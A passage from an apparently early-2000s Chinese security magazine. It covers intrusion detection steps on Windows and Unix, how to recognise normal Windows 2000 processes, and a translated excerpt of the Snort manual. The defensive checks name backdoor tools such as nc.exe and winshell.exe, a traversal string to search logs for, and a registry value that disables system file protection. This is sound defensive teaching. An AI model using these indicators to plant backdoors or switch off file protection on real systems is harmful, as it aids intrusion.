



至此就不用我再说什么了。可见对一个站点扫描做安全评估，不仅仅要使用工具来检测，更要人工检测一遍（CGI、ASP、PHP……程序写得有问题都可以导致你的站点出现致命的漏洞），这样做才能让你的站点比较安全。不过并不是说经过这些检测，你的站点就百黑不侵了，因为安全只是相对的，没有绝对的安全。

后记：本来要写手工检测漏洞的重要性，怎么写到最后好像是入侵教程？其实我只是从一个实际应用（一个只开了 80 端口的站点还是被攻破）的角度来说明手工检测网站的漏洞是必要的。另外，这个站点还有程序上的 bug，不过不在我们范围内了……

### 网络入侵检测步骤及思路

提到入侵检测系统，可能很多人觉得是一个技术高深、非一般人能够涉及的领域，而大多数的人对入侵检测系统的介绍也是从它的目的、原理、实现方式、分类、功能等方面来介绍的，这样的文章让普通的网友不容易看懂，也不容易吸收和接受。而本文作者从入侵思路着手，分析网络入侵检测的方向和思路，并且根据操作系统的不同，分别予以介绍，可以说攻防结合，深入浅出，是一篇可读性很高的分析文章，值得大家学习探讨。

文/littleshrimp

- **第一步** 我们都知道，一个入侵者想要入侵一台服务器，首先要扫描这台服务器，搜集服务器的信息，以便进一步入侵该系统。系统信息被搜集得越多，此系统就越容易被入侵者入侵。所以我们做入侵检测时，也有必要用扫描器扫描一下系统，搜集一下系统的一些信息，来看看有没有特别流行的漏洞。
- **第二步** 扫描完服务器以后，查看扫描的信息，分析扫描信息。如果有重大漏洞，修补（亡羊补牢，犹时未晚）；如果没有，转下一步。
- **第三步** 没有漏洞，使用杀毒工具扫描系统文件，看看有没有留下什么后门程序，如 nc.exe、srv.exe……如果没有，转下一步。
- **第四步** 入侵者一般入侵一台机器后会留下后门，充分利用这台机器来做一些他想做的事情，如利用肉鸡扫描内网，进一步扩大成果；利用肉鸡作跳板入侵别的网段的机器，嫁祸于这台机器的管理员，跑流光、破邮箱等等。

那么如何检测这台机器有没有装一些入侵者的工具或后门呢？

## 查看端口（偏好命令行程序）

- 1. fport.exe → 查看哪些端口都是哪些程序在使用，有没有非法的程序和端口，winshell.exe 8110 后门？net use，谁在用这个连接我？
- 2. netstat -an → 查看哪些端口与外部的 IP 相连。23 x.x.x.x，没有开 23 端口，怎么自己打开了？黑客？
- 3. letmein.exe \\ip -admin -d，列出本机的 administrators 组的用户名，查看是否有异常。怎么多了一个 hacker 用户？<==> net user id。
- 4. pslist.exe → 列出进程 <==> 任务管理器。
- 5. pskill.exe → 杀掉某个进程，有时候在任务管理器中无法中止程序，那就用这个工具来停止进程。
- 6. login.exe → 列出当前都有哪些用户登录在你的机器上，说不定在你检测的同时，入侵者就在破坏。
- 7. 查看日志文件 → 庞大的日志文件需要借助第三方软件来分析日志。它们记录了入侵者扫描的信息和合法用户的正确请求：
- 8. 查看 Web 目录下文件改动与否，留没留 asp、php 后门……查看存放日志文件的目录：
  - DOS：dir /a
  - GUI：查看显示所有文件和文件夹
  - 技巧：查看文件的修改日期。我两个月没有更新站点，怎么 Web 目录下有最近修改文件的日期？奇怪吧？

```text
Find "scripts/.." C:\WINNT\system32\LogFiles\W3SVC1\ex010705.log
```

```text
C:\WINNT\system32\LogFiles\W3SVC1>dir
dir
驱动器 C 中的卷是 system Server
卷的序列号是 F4EE-CE39

C:\WINNT\system32\LogFiles\W3SVC1 的目录
2001-07-05 02:43 1,339 ex010704.log
2001-07-05 23:54 52,208 ex010705.log
2001-07-07 22:59 0 ex010707.log
2001-07-08 22:45 0 ex010708.log
2001-07-10 08:00 587 ex010709.log
```

奇怪，怎么没有 2001-07-06 那天的日志文件？2001-07-07、2001-07-08 两天的日志文件大小为零，我的网站访问量怎么两天都是空？没有那么惨吧？肯定有问题。

```text
D:\win 2000>dir
dir
驱动器 D 中的卷是 新加卷
卷的序列号是 28F8-B814

D:\win 2000 的目录

2001-06-03 17:43 <DIR> .
2001-06-03 17:43 <DIR> ..
2001-06-03 17:43 <DIR> CLIENTS
2001-06-03 17:43 <DIR> BOOTDISK
2001-06-03 17:43 <DIR> I386
2001-06-03 17:46 <DIR> PRINTERS
2001-06-03 17:46 <DIR> SETUPTXT
2001-06-03 17:46 <DIR> SUPPORT
2001-06-03 17:46 <DIR> VALUEADD
2000-01-10 20:00 45 AUTORUN.INF
2000-01-10 20:00 304,624 BOOTFONT.BIN
2000-01-10 20:00 5 CDROM_IP.5
2000-01-10 20:00 5 CDROM_NT.5
2000-01-10 20:00 12,354 READ1ST.TXT
2000-01-10 20:00 465,408 README.DOC
2000-01-10 20:00 267,536 SETUP.EXE
2001-06-04 17:37 <DIR> SP1
2001-06-27 16:03 <DIR> sp2
2001-07-06 00:05 <DIR> system → 从来没有修改或安装什么文件程序啊，什么时候多了 system 目录？这个是我安装 Win2000 的安装文件。日期怎么是 2001-07-06？日志文件也没有 2001-07-06 这一天的记录，可疑？
7 个文件 1,049,977 字节
12 个目录 10,933,551,104 可用字节
```

- 1. 检查 suid、sgid 程序  
  find / -user root -perm -4000 -print  
  find / -group kmem -perm -2000 -print
- 2. 查看系统的二进制文件是否被更改。  
  如：ls、su、telnet、netstat、ifconfig、find、du、df、sync、login……  
  建议做入侵检测时候，从一个干净的系统 Copy 过来这些文件做检测，使用 MD5、Tripwire 校验工具检测。
- 3. 检查 /etc/passwd 文件。  
  有没有新增的用户、没有口令的账号、uid 等于 0 的账号……
- 4. 检查有没有网络监听程序在运行。  
  netstat -an
- 5. 检查系统非正常的隐藏文件。  
  "."、".."、".G"  
  find / -name ".*" -print -xdev  
  find / -name ".*" -print -xdev | cat -v
- 6. 在系统正常运行的情况下，系统管理员要经常使用下列命令（必要的话，系统管理员可以改变 path，或者修改二进制文件名称，放到一个只有自己知道的目录下），在保证二进制文件没有被篡改的情况下用绝对路径：

```text
/bin/who
/bin/w
/bin/last
/bin/lastcomm
/bin/netstat
/bin/snmpnetstat
.
shell 的历史文件，如：.history、.rhosts…
bash_history……
```

- 总的来说，入侵检测包括：
  1. 基于 80 端口入侵的检测——CGI、IIS 程序漏洞；
  2. 基于安全日志的检测——工作量庞大；
  3. 文件访问日志与关键文件保护；
  4. 进程监控——后门什么的；
  5. 注册表校验——木马；
  6. 端口监控——21、23、3389……
  7. 用户——我觉得这个很重要，因为入侵者进入系统以后，为了方便以后的“工作”，通常会加一个用户或者激活 guest 账号并提升为管理员。

以上是 Windows 系统下的入侵检测分析，那么 UNIX 下呢？让我们看一下如何借助第三方软件协助分析 IDS、Firewall。对于 UNIX & Linux 的入侵检测来说，有必要先用扫描器扫描一下系统，搜集一下资料：CGI、RPC、TELNETD、FTP 等本地或远程溢出漏洞。

7. 日志

因为 Unix & Linux 系列源代码是开放的，所以如果入侵者装上了内核后门，那就自己想吧。

在此，强烈建议经常备份你机器上重要文件，重装系统，打好补丁。

入侵检测介绍就到这里。在实际运用中，系统管理员对基础知识掌握的情况直接关系到他的安全敏感度，只有身经百战而又知识丰富、仔细小心的系统管理员才能从一点点的蛛丝马迹中发现入侵者的影子，未雨绸缪，拒杀入侵的行动。

## Windows 2000 下

## 进程的观察与常规进程描述

我的系统中都有什么进程（程序）在运行呢？这些进程中有没有怀有恶意的进程（如木马）呢？我们应该如何分辨呢？本文描述在 Windows 2000（以 Windows 2000 Server 2195 为蓝本）的一般情况下，包含哪些正常的进程？我们应该如何分辨哪些是正常的进程，哪些不是？

作为进程的观察工具来说，Windows 的任务管理器的功能相对较单一，我推荐大家使用 Sysinternals.com 的 Process Explorer，这是一个免费的软件，可以在 http://sysinternals.com/ntw2k/freeware/procexp.shtml 下载它的最新版本，包括 Windows 9x 和 Windows NT/2000 的版本。这个软件功能强大，可以观察当前系统中的所有进程及其所有进程所打开的句柄、包含的动态链接库等详细的内容，其工作画面如图 2 所示。

## 1．进程观察工具

我们知道，在 Windows 2000 下，用 Ctrl、Alt 和 Del 三个键的组合可以调出任务管理器（Win9x 下可以实现类似的功能），在任务管理器的进程标签内，包含当前系统中所有正在运行的进程（程序），如图 1 所示。





在图 2 中，我们可以详细地看到每一个进程的 PID、依属关系、CPU 占有率、进程说明（Description）、所有者（Owner）等相关内容。

我们可以看到，通过任务管理器的进程列表，我们可以观察每一个进程的映像名称（也就是这个进程由哪个程序所创建）、PID 号码、CPU 占有率、CPU 时间和内存的使用。在 Windows 2000 下，都包含一个叫“System Idle Process”的进程，这个进程称为“系统空闲进程”，负责传送延时过程调用或调度线程。

通过这个工具，我们可以通过在一个进程上双击鼠标详细地查看每一个进程的程序映像所在的位置、命令行内容、安全设置选项、环境等内容，如图 3 所示。还可以详细地了解每一个进程的信息，以提供我们判断一个进程是否合法的依据。

## 2．Windows 2000 系统常见进程



以下系统进程：

System Idle Process：系统空闲进程。在 Windows NT/2000 下，这个进程的 PID 都是 0，这个进程的作用在上面已经有过描述。

System：系统进程。在 Windows NT 下，这个进程的 PID 是 5，在 Windows 2000 下，这个进程的 PID 是 8。这个进程实际上并不是用户态（用户态——在 Windows NT/2000 下，系统分为核心层和用户层，我们所能看到的程序，包括木马等有害程序，都是运行在用户层的。）的进程，是所有运行在核心态的“系统线程”的宿主，或者可以说是运行在核心态的“系统线程”的用户态表示。

Smss：会话管理器进程。映像文件：\SystemRoot（SystemRoot——SystemRoot 为系统的安装路径，例如你的 Windows NT/2000 如果安装在 C:\Winnt 目录下，那么 SystemRoot 就代表 C:\Winnt 这个目录。）\System32\smss.exe，它是系统创建的第一个用户模式进程。它负责运行子系统进程（一般为 Csrss.exe）和 Winlogon 进程，然后创建其他系统进程。

Csrss：客户端服务器 RunTime 进程。映像文件：\SystemRoot\System32\csrss.exe，负责环境子系统的支持，实现 Win32 子系统的一部分，实现诸如控制台（文本）窗口、创建删除进程与线程、支持 16 位虚拟 DOS 机（VDM）进程的部分等。

Winlogon：Windows 2000 登录进程。映像文件：\SystemRoot\System32\winlogon.exe，处理交互式登录与退出。

Lsass：本机安全验证服务器进程。映像文件：\SystemRoot\System32\lsass.exe，接收来自 Winlogon 进程的验证请求，并调用合适的验证程序包来执行实际的验证。

Services：服务控制管理进程。映像文件：\SystemRoot\System32\services.exe，负责用户模式的服务（用户模式的服务——Windows NT/2000 下的服务，类似 UNIX 系统下的“守护进程”，是实现一定特定功能的可以在进入系统前就自动运行的程序。）的启动、停止和与用户模式服务的相互作用，它本身提供许多用户模式的服务。

下面描述一些常见的用户模式服务进程：

- Svchost：这个叫做 Service Host 的进程包括多种服务。
- 映像文件：\SystemRoot\System32\svchost.exe -k netsvcs  
  功能：创建网络连接，如用如下模式访问网络：\\ServerName。
- 映像文件：\SystemRoot\System32\svchost.exe -k rpcss  
  功能：提供终结点映射程序（endpoint mapper）以及其他 RPC 服务。
- 映像文件：\SystemRoot\System32\svchost.exe -k netsvcs  
  功能：管理可移动媒体、驱动程序和库。
- 映像文件：\SystemRoot\System32\svchost.exe -k netsvcs  
  功能：跟踪系统事件，如登录 Windows、网络以及电源事件等。
- 映像文件：\SystemRoot\System32\svchost.exe -k tapisrv  
  功能：提供 TAPI 的支持，以便程序控制本地计算机、服务器以及 LAN 上的电话设备和基于 IP 的语音连接。因为这个服务程序可以有多个实例运行在不同的进程中，所以在当前的进程列表中可能包含多个 Svchost 进程，其区别就是带有不同的运行参数。

以上所描述的进程有可能存在在任何一个 Windows 2000 的系统中，其中系统进程必然包括在每一个默认安装的 Windows 2000 的系统中。

## 3．合法的进程

那么，我们该如何区分哪些进程是合法的进程呢？一般情况下，由于 Windows 2000 的文件保护功能（文件保护功能——Windows 2000 对其系统文件进行实时的监控，如果发现被替换或修改，那么它将会用系统保留的原始版本把被替换的系统文件恢复回来），其提供给我们的进程应该是安全的，如上面第 2 节描述的那些进程，但也不能忽视对其的检查。

文件保护首先你应该检查当前系统的文件保护功能是否开放，打开注册表管理器，查看下面注册表路径：

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

键名：SFCDisable，如果其键值为 `FFFFFF9DH`，那么你要当心了，这个键值可以完全屏蔽 Windows 2000 的文件保护功能，如果你确认你没有更改过，那么，可能有的系统文件已经被病毒或者木马改写了，请立即用最新的杀毒软件对系统进行查杀病毒操作。

其次，你应该检查所有服务的映像文件位置。例如服务进程 Svchost 的位置应该是 `\SystemRoot\System32\svchost.exe`，如果发生了变化，那么就可以认为是木马改变了映像文件的位置，用以绕过 Windows 2000 的文件保护功能，并且这个服务的映像文件极有可能已经被木马改写了，请立即停止这个服务，并在注册表中查找以下注册表路径：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service
```

查找映像文件发生变化的服务，改变其映像文件为系统默认的路径。

由于 Windows 2000 的良好保护功能，系统服务被替换一般情况下比较少见，最常见的是在进程列表中发现十分陌生的进程。通过第 1 节我们介绍的工具，我们可以详细地查看系统中存在的每一个进程，包括你安装并运行的应用软件，如 QQ、Foxmail 等，并可以查看其映像文件的路径。你应该养成对系统中每一个由自己安装的应用软件的位置、是否开机自动运行等特征进行记忆的好习惯。这样，通过观察进程列表，如果发现一个从没有见过的进程，其映像文件的路径你也从没有用过，就可以发现大多数的木马程序。

附：常规系统开放端口和映像文件列表

我们这里查看系统开放的端口和映像文件的对应列表使用的应用程序是 Foundstone 出品的免费软件 Fport，可以到 http://www.foundstone.com 下载。

- TCP 端口：
  - 135：System 进程
  - 139：System 进程
  - 445：System 进程
  - 500：Svchost 进程
- UDP 端口：
  - 445：System 进程
  - 4000：OICQ 进程

系统在上网的时候还可能开放类似 1025、1026、10xx 的端口，通过 Fport 查看，可以看到是 IE 打开的。通过 Fport，我们可以详细查看系统中都有哪些进程开放了端口。如果有你不认识的进程开放了端口，那么也极有可能是木马开放的，应该终止那个开放端口的进程，并对其映像文件进行检查。

其实，要区分恶意进程和系统进程并不是很困难，用一个好的工具，加上一点点头脑，很容易就可以抓出系统中非法的恶意程序来。

编者后记：一直以来对 Windows 2000 的系统进程只是有一个模糊的概念，也有不少朋友问及一些相关的知识，但是总感觉不知从何说起。看完作者的这篇文章，感觉真的很透彻、简单明了，非常容易理解和学习，因此就将它推荐给和我一样对 Windows 2000 系统进程有困惑的朋友们。

## 名词解释

> UUCP：UUCP（UNIX-to-UNIX Copy）是一个较旧但是仍很重要的协议，这个协议仍然是电子邮件和网络新闻交换的方法之一。

UBE 和 UCE：UBE（Unsolicited Bulk Email），UCE（Unsolicited Commercial Email），不请自来的批量电子邮件，俗称垃圾邮件。

Apache：流行的 Web 服务器软件。

Active network（活动网络）：活动网络中的结点可以针对结点上传输的信息进行自定义的操作。例如，结点可以根据不同的用户对数据包进行处理。活动网络机制对于活动网络的用户可能更显重要。

## Snort 用户手册——5 概述（上）

在防火墙已经不能再有效保护内部主机安全的时候，入侵检测系统应运而生，而 IDS 的品牌也如雨后春笋。本文介绍的 Snort 是一款国外 IDS 开发人员编写的著名入侵检测系统，它开放源码，提供规则库，供所有对入侵检测系统感兴趣的同行下载研究。本文是作者翻译的 Snort 用户手册，文中详细介绍了 Snort 的模式、原理以及使用方法。因为 Snort 用户手册篇幅比较长，所以分 3 部分连续刊载，请读者在以后的几期中继续关注。

文／sword

#### 1. 开始

Snort 实际上不是非常容易使用，但可以使用它的很多命令行选项。本文的目的是让新用户熟悉如何使用 Snort。

Snort 有三种主要模式：Sniffer、Packet Logger 和网络入侵检测系统。Sniffer 模式是从网络中抓取数据包，不断地将这些数据包显示在你的终端上面。Packet Logger 模式是将数据包记录在硬盘上面。网络入侵检测模式混合了上面两种模式并配置了其他一些功能，允许 Snort 分析网络传输中的数据，对它们进行用户的防御规则匹配，然后再作出一些动作。

#### 2. Sniffer 模式

首先，让我们从最基本的开始。如果你仅仅想要把 TCP/IP 的数据包报头打印在屏幕上面（例如，Sniffer 模式），试着做：

```bash
./snort -v
```

这个命令将运行 Snort 并且仅仅查看 IP 和 TCP/UDP/ICMP 的报头，不做任何其他动作。如果你想要查看应用层的数据传输，试一下下面的命令：

```bash
./snort -vd
```

这个命令将指示 Snort 显示出数据包的报头和数据。如果你想要看到完全的显示，看到数据链路层报头，则执行如下命令：

```bash
./snort -vde
```

#### 3. Packet Logger 模式

上面这些命令非常简单明了，但如果你想要记录这些数据包到硬盘上面，则需要指定一个记录的目录，Snort 自动地转成 Packet Logger 模式：

```bash
./snort -dev -l ./log
```

当然，假定你的当前目录中有一个叫“log”的目录。如果你没有，Snort 将输出一个错误消息退出。当 Snort 运行在这种模式下时，它收集每一个数据包并按 IP 地址的基本顺序记录到硬盘中。

如果你指定一个“-h”参数，你会注意到 Snort 有时候使用远程计算机地址建立目录记录数据包，有时候使用本地主机地址。为了分清楚本地网络，你需要告诉 Snort 哪一个网络是本地网络：

```bash
./snort -dev -l ./log -h 192.168.1.0/24
```

这个规则告诉 Snort，你想要打印出数据链路和 TCP/IP 报头以及应用层数据记录到 ./log 目录，而且你想要记录有关 192.168.1.0 这个 C 类网络的数据包；所有进入的包将被记录到 log 目录中的子目录，目录名按远程计算机的地址（192.168.1.x）分类。

注意：如果两个主机都在本地网络中，它们记录的优先级是端口号和源地址。

如果你是在一个高速网络中或者你想要把数据包集中记录到将来进行分析，你应该按二进制模式记录。二进制模式使用“tcpdump 格式”简单地用一个二进制文件记录到目录中。

```bash
./snort -l ./log -b
```

注意：命令行在这里改变了。我们不需要指定本地网络，因为使用二进制模式记录把每一件事情全部都记录到一个文件中了，就不需要你告诉 Snort 记录的目录格式了。另外，你也不需要使用冗余模式和 -d 和 -e 选项，因为二进制模式是完全记录数据包并不把它们分段记录。所有这些都必须用 -l 指定一个日志目录，-b 二进制记录仅仅告诉日志不是按默认的 ASCII text 输出。

之前的数据包被记录在二进制文件中，你可以按 tcpdump 二进制格式那样读数据包。Snort 使用 -r 来从二进制文件中读数据包。例如，如果你想要通过 Snort 的 Sniffer 模式运行二进制日志文件输出数据包到屏幕上面，你可以这样做：

```bash
./snort -dv -r packet.log
```

你可以通过许多种方法操作文件，像 Snort 的数据包记录和入侵检测模式以及 BPF 接口。例如，如果你只想查看日志文件中的 ICMP 数据包，用命令行指定一个 BPF 过滤和一个日志文件：

```bash
./snort -dvr packet.log icmp
```

更多使用 BPF 接口的信息，你可以查阅 snort 和 tcpdump 的 man pages。

#### 4. 网络入侵检测模式

要使用网络入侵检测（NIDS）模式，试运行：

```bash
./snort -dev -l ./log -h 192.168.1.0/24 -c snort.conf
```

那里的 snort.conf 的名字改成你自己的规则文件名字。它将应用设置在 snort.conf 文件中的规则去判断每一个数据包以及动作。如果你在程序中没有指定一个输出目录，它默认的是 /var/log/snort。

值得注意的一点就是有关命令行，如果 Snort 使用 IDS 方式，最好把“-v”关掉，这样做是为了保持 Snort 快速运行。屏幕是以较慢的速度显示数据包到显示器上面的。

另外，没有必要记录数据链路头的更多应用，所以它没有必要使用 -e：

```bash
./snort -d -h 192.168.1.0/24 -l ./log -c snort.conf
```

这个命令将配置 Snort 以基本的 NIDS 方式运行，按 ASCII 方式分层目录结构记录数据包。

##### （1）NIDS 模式输出选项

